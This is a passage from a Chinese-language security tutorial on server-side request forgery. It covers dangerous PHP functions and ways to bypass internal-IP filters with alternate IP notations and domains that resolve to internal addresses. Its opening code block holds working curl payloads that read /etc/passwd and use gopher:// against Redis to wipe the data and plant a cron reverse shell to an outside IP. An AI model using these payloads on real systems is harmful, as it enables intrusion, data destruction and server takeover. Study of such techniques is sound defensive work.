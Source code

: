 ```
curl -vvv 'dict://127.0.0.1:6379/info'

curl -vvv 'file:///etc/passwd'

# * 注意: 链接使用单引号，避免$变量问题

curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i &gt;&amp; /dev/tcp/103.21.140.84/6789 0&gt;&amp;1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

### 4.4.3. 相关危险函数

SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有

```
file_get_contents() / fsockopen() / curl_exec() 等。
```

### 4.4.4. 过滤绕过

#### 4.4.4.1. 更改IP地址写法

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

>  
 - `^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$`- `^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`- `^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$` 


对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

>  
 - 8进制格式：0300.0250.0.1- 16进制格式：0xC0.0xA8.0.1- 10进制整数格式：3232235521- 16进制整数格式：0xC0A80001- 合并后两位：1.1.278 / 1.1.755- 合并后三位：1.278 / 1.755 / 3.14159267 


另外IP中的每一位，各个进制可以混用。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL

等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

#### 4.4.4.2. 使用解析到内网的域名

如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 `xip.io` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，

例如192.168.0.1.xip.io，解析到192.168.0.1。

#### 4.4.4.3. 利用解析URL所出现的问题

在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。
